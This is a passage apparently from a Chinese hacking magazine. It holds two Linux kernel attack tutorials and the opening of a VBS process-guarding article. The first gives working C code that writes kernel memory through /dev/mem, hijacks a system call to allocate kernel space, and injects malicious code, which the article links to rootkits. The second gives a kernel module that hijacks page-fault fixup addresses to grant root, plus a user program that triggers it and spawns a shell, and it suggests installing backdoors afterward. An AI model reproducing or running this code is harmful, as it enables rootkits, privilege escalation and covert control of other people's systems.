    addr -= 0xC0000000;
    if(lseek(mem_fd, addr, SEEK_SET) < 0) {
        printf("lseek failure!\n");
        return -1;
    }
    rlen = write(mem_fd, buf, len);
    return rlen;
}
```

利用上面两个简单的读取写入函数，即可准确地在 Ring3 下获取到指定函数的内存地址。大家需要注意语句“if(addr < 0xC0000000) return -1;”，Linux 内核将 32 位的地址共 4GB 字节的空间分成了两部分，将最高的 1GB 字节（从虚地址 0xC0000000 至 0xFFFFFFFF）用于内核本身，称为“系统空间”，而将较低的 3GB 字节用作各个进程的用户空间，系统空间由所有的用户进程共享。但实际上，内核在系统启动时还是会通过一个简单的映射转换为物理地址，这个偏移就是 0xC0000000。也就是说，我们需要真正地访问物理地址，还需要进行一个简单的映射，即“addr -= 0xC0000000;”。在源代码 include/asm-i386/page.h 文件中定义了这种映射关系：

```c
#define __pa(x) ((unsigned long)(x)-PAGE_OFFSET)
#define __va(x) ((void *)((unsigned long)(x)+PAGE_OFFSET))
```

对系统空间而言，给定一个虚地址 x，其物理地址是从 x 中减去 PAGE_OFFSET；相应地，给定一个物理地址 x，其虚地址为 x + PAGE_OFFSET。当然，这里我们需要先调用 open 函数打开 /dev/mem 来获得设备文件描述符。现在我们来看看如何在 Ring3 下获取 sys_call_table 地址。

```c
struct idt_descriptor *pidt; // 中断描述符表结构
struct _idtr idtr;
// 中断描述符表寄存器，存放了 IDT 的首地址
void *addr = NULL;
asm("sidt %0" : "=m" (idtr));
read_virt(idtr.base + sizeof(struct idt_descriptor) * 0x80, &idt, sizeof(struct idt_descriptor));
system_call = ((unsigned int)idt.hi_off << 16 | idt.low_off);
```

上面的 read_virt 函数在给定地址偏移（idtr.base + sizeof(struct idt_descriptor) * 0x80）后即可准确地获取到 0x80 中断号对应的地址了。其实也等同于我们在内核代码下的 idtr.base[0x80]，只不过这里我们不能这样做而已。所以只要涉及对内核地址的访问，在这里都可以借助 /dev/mem 来获取，只要能够给定正确的偏移地址。

OK，现在我们已经知道了 system_call 的地址了。如何借助 system_call 地址来求解 sys_call_table 的地址，请参考 2009 年第 6 期的相关文章。在源码 arch\i386\kernel\entry.S 中包含了系统调用例程代码 ENTRY(system_call)，里面就存在如下的语句：

```asm
syscall_call:
    call *sys_call_table(,%eax,4)
    movl %eax,EAX(%esp)    # store the return value
```

显然从上面的代码中，可以看到实际上 system_call 最终会去调用 sys_call_table 指针数组，根据 eax 中存放的系统调用号，找到自己的中断处理例程。同样采用上期提到的技术原理，直接根据 system_call 的起始地址开始搜索关键字 0xff, 0x14, 0x85，然后读取后面的 4 字节内容，即 sys_call_table 的地址。我们找到了 sys_call_table 地址后，就可以劫持一个不常用的系统调用，并将匹配得到的 kmalloc 函数地址替换这个系统调用了。

我们假设劫持 sys_uname 系统调用，当然一定要注意保存此处原有的调用地址。相关代码如下：

```c
read_virt(syscall_table + SYS_UNAME * sizeof(unsigned int), &sys_uname);
kmalloc_addr = Search_kmalloc();
write_virt(syscall_table + SYS_UNAME * sizeof(unsigned int), &kmalloc_addr, sizeof(unsigned int));
write_virt(syscall_table + SYS_UNAME * sizeof(unsigned int), &sys_uname);
```

首行代码用于从物理内存中获取系统调用 sys_uname 的地址，保存到 sys_uname 中。然后再调用 Search_kmalloc() 函数，在内存中搜索 kmalloc 函数地址，获取此地址后，即可通过 write_virt 函数，将此地址替换 sys_uname 函数地址。在调用 kmalloc 函数分配了自己的内存后，一定记住要再次调用 write_virt 函数将 sys_uname 地址重新写回内存中。

OK，基本的策略已经有了，现在就要看如何借用 sys_uname 使用 kmalloc 分配地址了，这里我们将系统调用号 __NR_uname 存放到 eax 寄存器，分配内存的大小、flags 标记 GFP_KERNEL 分别存放到 ebx、ecx 寄存器。在成功分配到需要的内存后，已分配的内存区地址将存放到 eax 寄存器中返回。这里直接嵌入汇编代码如下：

```c
__asm__("movl $122, %%eax \n"      // 系统调用号，可在源码 include/asm-i386/unistd.h 中查看
        "movl $4096, %%ebx \n"     // 分配一个页面大小，作为参数存放到 ebx 寄存器
        "movl $0xd0, %%ecx \n"     // GFP_KERNEL，对应的值为 0xD0
        "int $0x80 \n"
        "movl %%eax, %0 \n"
        : "=r" (kernel_buf));
// 将动态分配的寄存器值输出到 kernel_buf 中
```

在 Linux 内核源码中存在大量类似的嵌入汇编代码，对它们的更深层次理解可以参考任何一本讲述 AT&T 汇编的书籍，读者也可以快速地阅读赵炯编著的《Linux 内核完全剖析》一书中第 3 章节的内核编程语言和环境的内容。看到这里，大家应该理解了如何在 Ring3 下实现内核内存的分配问题了。现在我们就可以注入一些恶意代码，把代码拷贝到已经分配的内核空间中并作为内核中的一个函数来启动，完成自己的任务。

## 代码分析如下

```c
#include <stdio.h>
#include <fcntl.h>
#define SYS_UNAME 122
#define KERN_START 0xc0000000
#define PAGE_SIZE 4096
int mem_fd;
unsigned int syscall_table;
char *kernel_buf = NULL;

struct _idtr{
    unsigned short limit;   // 段长地址
    unsigned int base;      // IDT 的基地址
} __attribute__((packed));

struct idt_descript{
    unsigned short off_low;
    unsigned short sel;
    unsigned short flag;
    unsigned short off_high;
} __attribute__((packed));

// 判断给定的地址是否合法的内存虚地址
int is_kernel_addr(unsigned int addr){
    if(addr < KERN_START) return -1;
    return 0;
}

int read_virt(unsigned int addr, void *buf, unsigned int len)
{
    long rlen;
    if(is_kernel_addr(addr) < 0) return -1;
    addr -= KERN_START;
    // 映射到真实的物理地址偏移处
    if(lseek(mem_fd, addr, SEEK_SET) < 0){
        printf("lseek failure!\\n");
        return -1;
    }
    rlen = read(mem_fd, buf, len);
    // 在指定的位移处读取内存地址
    if(rlen < 0){
        printf("read failure!\\n");
        return -1;
    }
    return rlen;
}

int write_virt(unsigned int addr, void *buf, unsigned int len)
{
    if(is_kernel_addr(addr) < 0) return -1;
    addr -= KERN_START;
    lseek(mem_fd, addr, SEEK_SET);
    return write(mem_fd, buf, len);
}

unsigned int get_system_call(void){
    struct idt_descript idt;
    struct _idtr idtr;
    unsigned int system_call;
    ...
}
```

```c
asm("sidt %0" : "=m" (idtr));
read_virt((idtr.base + sizeof(struct idt_descript) * 0x80), &idt, sizeof(struct idt_descript));
system_call = (unsigned int)(((unsigned int)idt.off_high) << 16 | idt.off_low);
printf("system_call_entry: %x\\n", system_call);
return system_call;
}

unsigned long get_sys_call_table(unsigned int system_call){
    unsigned char *ptr, buf[100];
    unsigned int sct;
    int i;
    memset(buf, 0, sizeof(buf));
    read_virt(system_call, &buf, 100);
    for(i = 0, ptr = buf; i < 100; i++, ptr++){
        if(*ptr == 0xff && *(ptr + 1) == 0x14 && *(ptr + 2) == 0x85){
            sct = *((unsigned int*)(ptr + 3));
            printf("sys_call_table:0x%x\\n", sct);
            break;
        }
    }
    return sct;
}

unsigned long lookup_kmalloc()
{
    char buf[4096];
    char str[20] = {0};
    unsigned long j, i = KERN_START;
    char *sym = "_kmalloc";
    memcpy(str, sym, strlen(sym));
    str[strlen(str) + 1] = '\\0';
    while(i < KERN_START + 1024 * 1024 * 20){
        read_virt(i, buf, PAGE_SIZE);
        for(j = 0; j < PAGE_SIZE; j++){
            if(memcmp(buf + j, str, strlen(str)) == 0){
                printf("addr:%x\\n", i + j);
                return (unsigned long)(i + j);
            }
        }
        i += PAGE_SIZE;
    }
}

int main(void)
{
    unsigned int system_call;
    long kmalloc_addr, sys_uname;
    mem_fd = open("/dev/mem", O_RDWR);
    if(mem_fd == -1) return -1;
    system_call = get_system_call();
    syscall_table = get_sys_call_table(system_call);
    read_virt(syscall_table + SYS_UNAME * sizeof(unsigned int), &sys_uname, sizeof(unsigned int));
    ...
}
```

```c
kmalloc_addr = lookup_kmalloc();
write_virt(syscall_table + SYS_UNAME * sizeof(unsigned int), &kmalloc_addr, sizeof(unsigned int));
__asm__("movl $122, %%eax \n"
        "movl $4096, %%ebx \n"
        "movl $0xd0, %%ecx \n"
        "int $0x80 \n"
        "movl %%eax, %0 \n"
        : "=r"(kernel_buf));
write_virt(syscall_table + SYS_UNAME * sizeof(unsigned int), &sys_uname, sizeof(unsigned int));
close(mem_fd);
return 0;
}
```

#### 小结

本文谈论了在 Ring3 下如何读写内核内存以及在内核中存储自己的代码。设备文件 /dev/mem 十分强大，为内核开发人员提供了内核功能扩展的机会，同时也是黑客们利用的目标。拥有 root 权限的攻击者可以利用这个特点构造出各种标准的 Rootkit 行为，比如进程隐藏、开放隐藏端口、劫持系统调用，等等。

通过 /dev/mem 向 Linux 内核注入恶意代码是简洁可行的行为。除了 /dev/mem 之外，还有 /dev/kmem，里面包含正在运行内核的存储器映像。内核模式下的 Rootkit 可以利用此文件将代码嵌入内核，修改系统虚拟内存。通过调试器和定制编码与 /dev/kmem 交互，可在内核空间进行修改，从而绕过可加载模块技术。常用函数包括 rkm（read kernel memory）和 wkm（write kernel memory），分别用于读取和写入内核空间内容。

- 前置知识：Linux
- 关键词：编程、内核、权限

### 拦截 Linux 内核数据包异常实现 System 权限



文/图 小小衫

近些年，Linux 下出现了大量借助 LKM 技术实现的各种 Rootkit，LKM 技术也因其强大的内核修改及加载功能得到 Hacker 们的推崇。利用 LKM 可实现文件隐藏、进程隐藏、网络连接隐藏等。但这类 Rootkit 极易检测，安全人员可通过 lsmod 或 /proc/modules 枚举内核已加载模块信息。之后针对 LKM 被检测的问题，出现了各种对抗技术。

模块隐藏技术可在内核态下劫持 sys_query_modules 系统调用，有效隐藏已加载恶意模块。Ricardo Quesada 提出的方式是修改特定系统调用前 7 个字节，JMP 到 HOOK 指定函数（如“movl hooked_execve, %eax”与“jmp *%eax”），从而劫持 sys_execve 调用。

然而，对抗它们的各种安全检测工具也已经出现，并且趋于完善，如 Kstat、Angel 等检测工具即可有效地检测上面出现的恶意行为，而且修改特定系统调用前 7 个字节的方法也不是很普遍，只能针对特定的系统调用才有效。笔者最近在 phrack 上看到一篇有关利用异常处理的文章，觉得很新颖，就认真研究了一番，结合自己的理解与代码调试，写下此文给大家分享此技术。本文将介绍一种新的隐藏机制，即借助内存管理子系统中的页内存保护机制，在内核态下修改缺页异常的系统修复地址，转向我们指定的任意内存地址继续执行，以改变缺页异常后的执行流程。

核心内容如下：

```asm
error_code:
......
movl ES(%esp), %edi
# 获得函数地址，即 do_page_fault 函数指针
movl ORIG_EAX(%esp), %edx
# 获取 do_page_fault 函数参数，即异常出错码
movl %eax, ORIG_EAX(%esp)
movl %ecx, ES(%esp)
movl $(__USER_DS), %ecx
movl %ecx, %ds
movl %ecx, %es
movl %esp, %eax
# 结构体 pt_regs 指针，即 do_page_fault 函数参数
call *%edi    # 调用 do_page_fault 函数
```

#### 缺页异常原理分析

异常是指系统、处理器或当前执行程序（或任务）的某处出现一个事件，此事件需要处理器进行处理。当检测到一个异常后，处理器会自动将当前正在执行的程序或任务挂起，并转而运行异常处理程序。而当用户进程请求的页地址不在内存区或对应的页表地址为空，甚至访问页地址的方式违背页保护机制等情况时，页异常就会出现。处理器把引起缺页异常的虚拟地址装到寄存器 CR2 中，并提供一个出错码，指示引起缺页异常的存储器访问类型，随后即调用缺页异常处理函数进行处理。

当发生缺页异常后，CPU 穿过中断门直接转向 page_fault() 函数。CPU 因异常而穿过中断门的过程，包括堆栈的变化与因外设中断而引起的过程基本一致，只是在除了需要将寄存器 EFLAGS 内容及返回地址 CS 和 EIP 寄存器内容压入堆栈之外，系统还会将异常产生的错误码入栈。页面异常处理的入口 page_fault 是在 arch/i386/kernel/entry.S 中定义的，具体内容如下：

```asm
KPROBE_ENTRY(page_fault)
RING0_EC_FRAME
pushl $do_page_fault   // 将函数指针入栈
CFLADJUST_CFA_OFFSET 4
jmp error_code         // 转到 error_code 处继续执行
```

由上面的代码可知，异常处理转向了 error_code 处，再次跟踪 error_code 的相关内容，相关代码也在 arch/i386/kernel/entry.S 给出，部分核心内容如下：

通过上面的代码，很好地实现了将发生异常前的所有寄存器内容入栈，同时也将需要进一步调用的 do_page_fault 函数参数一并入栈，最后 Call 异常处理函数（提示：ORIG_EAX 处在中断处理中存放的是中断请求信号，此处为异常出错码，需要进一步理解的读者可以参考《Linux内核情景分析上册》P239 中的图 3-7，此图将异常处理与中断处理的系统栈进行了详细的对比分析。异常处理函数 do_page_fault() 的实现在 Linux 内核 arch/i386/mm/fault.c 中可以找到。笔者使用的内核为 Linux-2.6.18，实现函数为 fastcall void __kprobes do_page_fault(struct pt_regs *regs, unsigned long error_code);）。

在内核下发生缺页异常主要存在以下 3 种情况。其一，内核访问属于进程空间的页地址，但此页帧并不存在（请求调页），或者内核尝试写一块只读页地址（写时复制 Copy On Write）。其二，当程序执行时，内核函数中存在 Bug，导致产生硬件错误。其三，系统调用函数相关参数指定的内存地址不属于此进程空间地址，即当某些系统调用函数如 sys_ioctl 尝试读或写由此函数参数指定的内存地址，但此地址又不在该进程空间。本文只对第 3 种情况感兴趣，在用户状态下，只要我们向一个系统调用传递一个 bad 地址，然后此函数试着读写此地址，即可引发缺页异常。

#### 异常相关的数据结构

内核下发生缺页异常时，若为前面所述的第 1 种情况，那么直接查看进程的内存地址空间即可，因为产生异常的地址若属于进程地址空间，则可在此进程地址空间匹配到。而对于第 2 种情况与第 3 种情况之间的鉴别工作，系统引入了一个异常处理表，当地址在异常表中能够匹配到，则表示此异常属于第 3 种情况，若不然，则属于第 2 种情况。异常表的结构体定义在 include/asm-i386/uaccess.h 中，具体内容如下：

```c
struct exception_table_entry {
    unsigned long insn;   // 出现异常的指令地址
    unsigned long fixup;  // 异常发生时，程序可继续执行的修复地址
};
```

异常处理表结构体中的两个地址，这里称之为地址对。当异常发生时，系统会将发生缺页的指令（reg->eip）同异常表中 insn 地址进行匹配，若不能匹配，则为第 2 种情况，系统直接 Oops。否则，则读取 fixup 内容，并赋值给 reg->eip，使程序能够继续在系统给出的修复地址处继续运行。要实现在内核态下搜索异常表，即需要确定一个搜索的起始地址，以及结束地址，否则无法判断从何处开始搜索以及何处表示搜索结束。异常处理表存在两个边界符号地址，即 __start___ex_table 和 __stop___ex_table，它们的地址可以通过 System.map 进行硬编码得到，在笔者的虚拟机下获取的地址如图 1 所示。



我们再次进入到异常处理函数 do_page_fault() 的实现代码中查看相关内容，在内核源代码 /arch/i386/mm/fault.c 中定义，部分实现代码如下：

```c
fastcall void __kprobes do_page_fault(struct pt_regs *regs, unsigned long error_code) {
no_context:
    /* Are we prepared to handle this kernel fault? */
    if (fixup_exception(regs)) return;  // 处理异常
}
```

此代码部分还看不出一个所以然，不能验证是否是将发生缺页异常的指令 regs->eip 在异常表中进行了匹配。因为笔者使用的是 Linux-2.6.18 的内核，在更早些的内核版本下，其实在 no_context 跳转段下直接表示出了如下代码。

```c
if ((fixup = search_exception_table(regs->eip)) != 0) {
    regs->eip = fixup;
    return;
}
```

显然上面的代码即调用了 search_exception_table 函数进行地址的搜索与匹配。在 2.6.18 的内核下，我们可以进一步跟踪 fixup_exception 的实现函数，其代码实现在 /arch/i386/mm/extable.c 中，部分实现如下：

```c
int fixup_exception(struct pt_regs *regs) {
    const struct exception_table_entry *fixup;
    ...
    fixup = search_exception_tables(regs->eip);
    if (fixup) {
        regs->eip = fixup->fixup;
        return 1;
    }
    return 0;
}
```

同样也是调用 search_exception_tables 进行地址的搜索与匹配。

#### 异常处理指针的替换

由前面的分析可知，在模块的异常表里，异常地址与修复地址总是成对出现，故我们只需对指定的 fixup 地址进行替换，就可以使程序发生异常时跳转到我们精心构造的函数中，从而实现特定的功能。对一个模块而言，假定在内核中触发的异常跳转地址定义为 exp_addr，在模块中可以利用一个循环遍历异常表，当发现异常触发地址相匹配时，对异常处理指针进行替换，核心代码如下：

```c
#define START_TABLE  ex_table_start
#define END_TABLE    ex_table_end
for (; insn < ex_table_end; insn += 2 * sizeof(unsigned long)) {
    fixup = insn + sizeof(unsigned long);
    if (*(unsigned long *)fixup == exp_addr)
        *(unsigned long *)fixup = (unsigned long)MyHookFunc; // 实现函数指针替换
}
```

现在问题产生了，如何确定内核中触发的异常跳转地址。需要实现用户态与内核态进行通信，这里我们选择 ioctl 函数，其对应的最顶层系统调用为 sys_ioctl，在内核 2.6.18 下，其实现代码中又调用了 vfs_ioctl 函数。其实现代码在 fs/ioctl.c 程序中，部分代码如下：

```c
int vfs_ioctl(struct file *filp, unsigned int fd, unsigned int cmd, unsigned long arg)
{
    unsigned int flag;
    int on, error = 0;
    switch (cmd) {
    case FIONBIO:
        if ((error = get_user(on, (int __user *)arg)) != 0)
            break;
        flag = O_NONBLOCK;
        ...
    }
    return error;
}
```

其中，get_user() 宏功能即将用户空间的数据拷贝到内核空间中。系统在核心态运行的时候，参数是通过寄存器传递的，由于寄存器传递的信息有限，故传递的参数大多数为指针。要使用指针所指向的更大的数据块，就需要将用户空间下的数据拷贝到系统空间中，而 get_user() 宏即扮演了此角色。在 vfs_ioctl 函数中，当将打开的文件设置命令为 FIONBIO 时，函数即调用 get_user() 函数将用户空间的地址 arg 拷贝到内核空间。

下面我们再来跟踪 get_user() 函数的实现，以进一步分析内存地址的拷贝问题。其目的主要是确定当地址拷贝失败时，函数的异常处理问题，从而发现异常跳转指令地址。在源代码 /include/asm-i386/uaccess.h 下可以找到 get_user() 函数的实现代码，内容如下：

```c
#define get_user(x,ptr)                           \
({ int __ret_gu;                                  \
   unsigned long __val_gu;                        \
   __chk_user_ptr(ptr);                           \
   switch(sizeof(*(ptr))) {                       \
   case 1: __get_user_x(1,__ret_gu,__val_gu,ptr); break; \
   case 2: __get_user_x(2,__ret_gu,__val_gu,ptr); break; \
   case 4: __get_user_x(4,__ret_gu,__val_gu,ptr); break; \
   default: __get_user_x(X,__ret_gu,__val_gu,ptr); break; \
   }                                              \
   (x) = (__typeof__(*(ptr)))__val_gu;            \
   __ret_gu;                                      \
})
```

代码中通过 switch(sizeof(*(ptr))) 语句来确定调用哪个具体的 __get_user_x() 函数。这里我们在用户态下需要传递一个指针，占 4 字节，故只分析“__get_user_x(4,__ret_gu,__val_gu,ptr);”。arch/i386/lib/getuser.S 下存放了此函数的具体实现，相关代码如下：

```asm
.align 4
.globl __get_user_4
__get_user_4:
    addl $3,%eax
    jc bad_get_user
    cmpl TI_addr_limit(%edx),%eax
    jae bad_get_user
3:  movl -3(%eax),%edx
    xorl %eax,%eax
    ret
bad_get_user:
    xorl %edx,%edx
    movl $-14,%eax
    ret
.section __ex_table,"a"
    .long 1b,bad_get_user
    .long 2b,bad_get_user
    .long 3b,bad_get_user
.previous
```

由 .section 标识的指令段即为异常表，其中 “a” 表示 __ex_table 段为可重定位的数据段。前面分析过，__ex_table 表总是以地址对的形式出现，即 insn 和 fixup 地址。而上面的代码中只有形如 “.long 3b,bad_get_user” 代码。可能读者不太理解此语句的具体含义，其中标签 3b（b 代表 backward，即往回的标签 3）是可能出现异常的指令的地址 insn，即 “movl -3(%eax),%edx” 指令标识了 insn 的指令地址，那么显然 bad_get_user 即为 fixup 的地址。而 bad_get_user 地址同样可以借助 System.map 进行硬编码得到，只需要在命令终端键入 `grep bad_get_user System.map` 即可打印出 bad_get_user 对应的地址。

已经知道了异常指令的跳转地址，那么我们只需要构造一个循环，在链表中不断搜索匹配异常处理表的跳转地址即可。若匹配，则修改此地址值，替换成我们的 HookFunc 函数，即可实现所想要的各种功能。我们所要做的仅仅是修改 4 个字节的内容，即函数指针。当然，我们需要在用户态下调用 ioctl 函数，构造一个无法找到的地址，使其在内核态下产生缺页异常，进而转向调用异常处理程序，随即调用系统异常处理表中给出的修复地址 fixup 处继续执行，然而此处的地址值已经被我们恶意修改，故转而执行我们的代码。

#### 代码剖析

- 1. 在异常处理表中搜索匹配异常跳转指令地址

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#define _START__EX_TABLE 0xc0296c20
#define _END__EX_TABLE   0xc0297618
#define BAD_GET_USER     0xc01b44fb
/* 注：上述地址是笔者自己的 Linux 下硬编码得到的地址，读者需自己重新 grep */

struct old_ex_entry {
    struct old_ex_entry *next;
    // 用来保存将要替换的异常表地址
    unsigned long address;
    unsigned long insn;
    unsigned long fixup;
};

struct old_ex_entry *ex_old_table;

void MyHookFunc(void) {
    printk(KERN_EMERG "Oh... MyHookFunc started\n");
    current->uid = current->euid = 0;
    // 提升权限，修改为 Root 权限
}

static void exception_exit(void)
{
    struct old_ex_entry *entry = ex_old_table;
    struct old_ex_entry *tmp;
    if (!entry) return;
    while (entry) {
        /* 循环提取所有修改过的异常处理表地址，还原地址 */
        *(unsigned long *)entry->address = entry->insn;
        *(unsigned long *)((entry->address) + sizeof(unsigned long)) = entry->fixup;
        tmp = entry->next;
        kfree(entry);
        entry = tmp;
    }
    return;
}

static int exception_init(void)
{
    unsigned long insn = start_ex_table;
    unsigned long fixup;
    struct old_ex_entry *entry, *last_entry;
    ex_old_table = NULL;
    for (; insn < end_ex_table; insn += 2 * sizeof(unsigned long)) {
        fixup = insn + sizeof(unsigned long);
        // 跳转到 fixup 地址处
        if (*(unsigned long *)fixup == BAD_GET_USER) {
            entry = (struct old_ex_entry *)kmalloc(GFP_ATOMIC, sizeof(struct old_ex_entry));
            if (!entry) return -1;
            entry->next = NULL;
            entry->address = insn;
            entry->insn = *(unsigned long *)insn;
            entry->fixup = *(unsigned long *)fixup;
            if (ex_old_table) {
                /* 将所有满足要求的地址表均保存在线性表结构中 */
                last_entry = ex_old_table;
                while (last_entry->next != NULL)
                    last_entry = last_entry->next;
                last_entry->next = entry;
            } else {
                ex_old_table = entry;
            }
            /* 修改跳转指令地址，替换成我们的 HOOK 函数 */
            *(unsigned long *)fixup = (unsigned long)MyHookFunc;
        }
    }

    return 0;
}

module_init(exception_init);
module_exit(exception_exit);
```

- 2. 在用户态下调用 ioctl 函数，激发内核态缺页异常机制

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

int main() {
    int fd;
    int res;
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;

    fd = open("testfile", O_RDWR | O_CREAT, S_IRWXU);
    res = ioctl(fd, FIONBIO, NULL);
    // 传递一个 NULL 地址，激发内核态缺页异常
    printf("result = %d errno = %d\n", res, errno);
    execve(argv[0], argv, NULL);
    return 0;
}
```

在 Linux-2.6.18 内核下进行测试，结果如图 2 所示。



图2

本测试没有切换到普通用户下操作，笔者把其他用户的密码忘了，所以总是登不上去，实在抱歉，这里就直接在 root 下进行测试。读者可以在自己的 Linux 下测试：在普通用户下的命令终端键入“su”，输入 root 登录密码，切换到 root 权限，将修改后的异常处理模块加载到内核中，然后 exit，再次切换到普通用户态下，执行用户程序 usr_ex.c，再次查看用户权限，则会发现此时的用户权限已经修改为 root 权限了。

#### 小结

本文介绍了一种修改 Linux 内核态下的缺页异常返回地址值的方法。在客户端通过 ioctl 函数传递一个 NULL 的非法地址给 sys_ioctl 函数，而此函数在调用 `get_user(on,(int __user *)arg)` 函数将用户空间地址拷贝到内核空间时，由于此地址为非法地址，故产生缺页异常。此时系统会在异常调用表中寻找修复地址，而此地址已经被我们人为地修改了，故可起到有效劫持缺页异常返回地址的良好效果。

针对前面给出的 MyHookFunc 函数，我们可以更加丰富地完善此函数的功能，如当提升权限为 Root 级后，我们可以进一步安装恶意的网络监听软件或者安插一些后门程序等，以完全控制 victim 主机。对于截获缺页异常的处理机制，最后给出以下总结：

- 进程访问内核地址空间的非法地址 A；
- 存储管理部件 MMU 产生一个缺页异常，CPU 调用函数 do_page_fault；
- `do_page_fault()` 函数调用 `search_exception_tables`，其中 `regs->eip = A`；
- `search_exception_tables` 在异常表中查找地址 A，并返回地址对中的修复地址 B；
- 截获修复地址，替换成我们的 HOOK 函数地址 C；
- 代码按照我们修改后的指令地址继续执行，即 JMP 到地址 C 处开始执行。

对缺页异常处理需要进一步理解的读者，可以参考《深入理解 Linux 内核》和《Linux 内核情景分析（上册）》书中相关章节的内容，也欢迎大家在黑防论坛上共同交流学习。

前置知识：VBS  
关键词：工具、WMI、守护进程

### VBS 玩“进程相互守护”

文/图 pk


最近在玩 VBS，发现 wscript.exe 一旦被 K 掉就完蛋，于是就有了本文。本文测试环境为 Windows XP SP2，VBS 编辑环境为 VBSEDIT，不考虑其他辅助的进程管理工具。

#### WMI 基础介绍

在写程序之前，我们先了解一下 Windows 设备管理（WMI）。WMI 的英文全称是 Windows Management Instrumentation，它是 WBEM（Web Based Enterprise Management）在微软的具体实现。WBEM 又是什么呢？它是由 BMC 公司、Cisco 公司、Intel 公司和微软等几家公司几年前为解决系统管理领域缺少标准的问题而采取的一项创新行动。在 WBEM 移交给工业组织 DMTF 后，DMTF 启动了一个名为 CIM（Common Information Model）的项目来实现一种理想的管理工具，这个工具在任何特定的实现环境都可以进行管理。CIM 规定了一个 Schema 模型和一种语言来构建这样的模型。

我们说 WMI 是 WBEM 在微软的实现，所以 WMI 的设计也反映了 CIM Schema 模型，并且 WMI 中许多的类也是从 CIM 中派生出来的。WMI 拥有如图 1 所示的结构。

